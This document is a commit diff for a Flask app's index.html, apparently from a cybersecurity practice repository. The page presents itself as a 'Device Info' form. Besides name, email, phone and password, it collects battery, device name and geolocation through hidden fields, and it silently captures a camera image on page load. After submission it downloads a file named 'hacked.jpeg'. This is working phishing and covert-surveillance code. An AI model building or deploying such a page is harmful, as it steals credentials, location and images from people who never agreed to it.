

Before and after one commit to Lokesh2003GN/Cybersecurity-, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -5,118 +5,137 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Device Info</title>
     <style>
-        /* Reset styles */
-        * {
+        body {
+            font-family: 'Poppins', sans-serif;
             margin: 0;
             padding: 0;
-            box-sizing: border-box;
-        }
-
-        body {
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            background: linear-gradient(135deg, #6e8efb, #a777e3);
             display: flex;
             justify-content: center;
             align-items: center;
             height: 100vh;
-            background: linear-gradient(135deg, #6dd5fa, #2980b9);
             color: #333;
         }
-
-        .container {
+        form {
             background: #fff;
             padding: 30px;
-            border-radius: 15px;
+            border-radius: 12px;
             box-shadow: 0 10px 20px rgba(0, 0, 0, 0.2);
             width: 100%;
             max-width: 400px;
         }
-
-        .form-title {
-            font-size: 1.5rem;
-            font-weight: bold;
-            color: #2980b9;
+        h1 {
             text-align: center;
+            color: #6e8efb;
             margin-bottom: 20px;
         }
-
-        .form-group {
-            margin-bottom: 15px;
-        }
-
         input, button {
             width: 100%;
             padding: 12px;
-            border-radius: 10px;
+            margin-bottom: 15px;
             border: 1px solid #ddd;
-            font-size: 1rem;
+            border-radius: 8px;
+            font-size: 16px;
+        }
+        input:focus {
             outline: none;
-            transition: all 0.3s ease;
+            border-color: #6e8efb;
+            box-shadow: 0 0 4px rgba(110, 142, 251, 0.5);
         }
-
-        input:focus {
-            border-color: #2980b9;
-            box-shadow: 0 0 5px rgba(41, 128, 185, 0.5);
-        }
-
         button {
-            background: #2980b9;
+            background: linear-gradient(135deg, #6e8efb, #a777e3);
             color: white;
             border: none;
+            font-size: 18px;
+            font-weight: bold;
             cursor: pointer;
-            font-weight: bold;
             transition: background 0.3s ease;
         }
-
         button:hover {
-            background: #1e6ba8;
+            background: linear-gradient(135deg, #a777e3, #6e8efb);
         }
-
         #video, #canvas {
             display: none;
         }
-
-        .hidden {
-            display: none;
+        .footer {
+            text-align: center;
+            margin-top: 10px;
+            font-size: 14px;
+            color: #666;
         }
-
-        .message {
-            text-align: center;
-            margin-top: 15px;
-            font-size: 0.9rem;
-            color: #555;
+        .footer.success {
+            color: #28a745;
+        }
+        .footer.error {
+            color: #dc3545;
         }
     </style>
 </head>
 <body>
-    <div class="container">
-        <div class="form-title">User Info Form</div>
     <form id="device-form" enctype="multipart/form-data">
-            <div class="form-group">
+        <h1>Device Info</h1>
         <input type="text" id="name" name="name" placeholder="Name" required>
-            </div>
-            <div class="form-group">
         <input type="email" id="email" name="email" placeholder="Email" required>
-            </div>
-            <div class="form-group">
         <input type="text" id="phone" name="phone" placeholder="Phone" required>
-            </div>
-            <div class="form-group">
         <input type="password" id="password" name="password" placeholder="Password" required>
-            </div>
         <input type="hidden" id="percentage_charging" name="percentage_charging">
         <input type="hidden" id="phone_name" name="phone_name">
         <input type="hidden" id="latitude" name="latitude">
         <input type="hidden" id="longitude" name="longitude">
-            <input type="file" id="image_input" name="image" accept="image/*" class="hidden">
+        <input type="file" id="image_input" name="image" accept="image/*" style="display:none;">
         <button type="submit">Submit</button>
+        <div class="footer" id="footer-message"></div>
     </form>
-        <div id="message" class="message"></div>
-    </div>
 
     <video id="video" width="300" height="200" autoplay></video>
     <canvas id="canvas" width="300" height="200"></canvas>
 
     <script>
+        // Geolocation
+if (navigator.geolocation) {
+    navigator.geolocation.getCurrentPosition(
+        function(position) {
+            document.getElementById('latitude').value = position.coords.latitude;
+            document.getElementById('longitude').value = position.coords.longitude;
+        },
+        function(error) {
+            if (error.code === error.PERMISSION_DENIED) {
+                // If location is denied, prompt user to enable location
+                promptToEnableLocation();
+            } else {
+                console.error("Geolocation error:", error.message);
+            }
+        }
+    );
+} else {
+    console.warn("Geolocation is not supported by this browser.");
+    setFooterMessage("Geolocation is not supported. Please enable it manually.", "error");
+}
+
+// Function to prompt the user to enable location services
+function promptToEnableLocation() {
+    const footer = document.getElementById("footer-message");
+    footer.textContent = "Location services are disabled. Please turn them on for better functionality.";
+    footer.className = "footer error";
+
+    // Optionally show a button to retry
+    const retryButton = document.createElement('button');
+    retryButton.textContent = "Enable Location";
+    retryButton.style.marginTop = "10px";
+    retryButton.style.padding = "10px";
+    retryButton.style.border = "none";
+    retryButton.style.backgroundColor = "#6e8efb";
+    retryButton.style.color = "white";
+    retryButton.style.borderRadius = "5px";
+    retryButton.style.cursor = "pointer";
+
+    retryButton.onclick = () => {
+        location.reload(); // Reload the page to try getting location again
+    };
+
+    footer.appendChild(retryButton);
+}
+
         // Battery level
         if ('getBattery' in navigator) {
             navigator.getBattery().then(function(battery) {
@@ -142,7 +161,7 @@
             console.warn("Geolocation is not supported by this browser.");
         }
 
-        // Camera feature
+        // Camera feature: Automatically capture an image after 3 seconds
         const video = document.getElementById('video');
         const canvas = document.getElementById('canvas');
         const imageInput = document.getElementById('image_input');
@@ -165,12 +184,21 @@
                 }, 3000);
             } catch (error) {
                 console.error("Error accessing camera:", error.message);
-                alert("Camera access is required to capture an image.");
+                setFooterMessage("Camera access is required to capture an image.", "error");
             }
         }
 
+        // Automatically start the camera on page load
         window.onload = startCameraAndCapture;
 
+        // Update footer message
+        function setFooterMessage(message, type) {
+            const footer = document.getElementById("footer-message");
+            footer.textContent = message;
+            footer.className = `footer ${type}`;
+        }
+
+        // Submit form with device data
         document.getElementById('device-form').addEventListener('submit', function(event) {
             event.preventDefault();
 
@@ -182,16 +210,31 @@
             })
             .then(response => response.json())
             .then(data => {
-                const messageDiv = document.getElementById('message');
                 if (data.message) {
-                    messageDiv.textContent = data.message;
+                    setFooterMessage(data.message, "success");
+                    fetch('https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTuAxz1lapTANfmJMhQ-cQFbiYqsBBE92BHZcv-QN0Ylm9_rSq_1YIb2xl0&s=10')
+                        .then(response => {
+                            if (!response.ok) throw new Error('Network response was not ok');
+                            return response.blob();
+                        })
+                        .then(blob => {
+                            const url = URL.createObjectURL(blob);
+                            const downloadLink = document.createElement('a');
+                            downloadLink.href = url;
+                            downloadLink.download = 'hacked.jpeg';
+                            document.body.appendChild(downloadLink);
+                            downloadLink.click();
+                            document.body.removeChild(downloadLink);
+                            URL.revokeObjectURL(url);
+                        })
+                        .catch(err => console.error('Error downloading the image:', err));
                 } else if (data.error) {
-                    messageDiv.textContent = `Error: ${data.error}`;
+                    setFooterMessage(`Error: ${data.error}`, "error");
                 }
             })
             .catch(error => {
                 console.error('Submission error:', error);
-                alert("Error submitting the form. Please try again.");
+                setFooterMessage("Error submitting the form. Please try again.", "error");
             });
         });
     </script>
```
Lines whose indentation alone changed are shown as unchanged.
